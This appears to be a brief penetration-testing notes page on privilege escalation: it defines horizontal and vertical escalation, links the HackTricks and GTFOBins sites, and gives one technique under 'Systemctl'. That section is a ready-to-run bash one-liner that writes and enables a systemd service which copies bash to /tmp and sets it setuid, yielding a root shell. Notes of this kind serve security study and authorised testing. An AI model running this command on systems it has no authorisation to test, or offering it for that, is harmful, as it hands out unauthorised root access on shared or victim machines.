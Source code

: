## Horizontal Privilege Escalation

Occurs when a user can perform an action or access data of another user with the **same** level of permissions.
## Vertical Privilege Escalation
Occurs when a user can perform an action or access data of another user with a **higher** level of permissions.

## Sites
[Hacktricks](https://book.hacktricks.wiki/en/index.html)
[GTFO Bins](https://gtfobins.github.io/)
## Ways
### Systemctl
```bash
echo -e "[Service]\nType=oneshot\nExecStart=cp /bin/bash /tmp/rootbash\nExecStart=chmod +s /tmp/rootbash\n[Install]\nWantedBy=multi-user.target" > /tmp/root.service && /bin/systemctl link /tmp/root.service && /bin/systemctl enable --now /tmp/root.service

```